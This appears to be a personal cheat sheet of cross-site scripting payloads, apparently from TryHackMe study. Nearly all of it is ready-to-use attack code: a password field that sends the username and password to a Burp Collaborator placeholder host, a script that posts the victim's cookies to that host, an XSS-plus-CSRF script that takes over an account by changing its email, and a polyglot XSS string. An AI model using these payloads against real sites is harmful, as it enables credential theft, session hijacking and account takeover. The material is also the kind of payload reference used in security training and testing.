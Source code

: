 
## Payloads Examples

- To capture passwords

```html
<input name="username" id="username" />
<input
  type="password"
  name="password"
  onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

- To steal cookies

```html
<script>
  fetch("https://BURP-COLLABORATOR-SUBDOMAIN", {
    method: "POST",
    mode: "no-cors",
    body: document.cookie,
  });
</script>
```

- XSS with CSRF (change email example)

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get", "/my-account", true);
  req.send();
  function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("post", "/my-account/change-email", true);
    changeReq.send("csrf=" + token + "&email=test@test.com");
  }
</script>
```

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
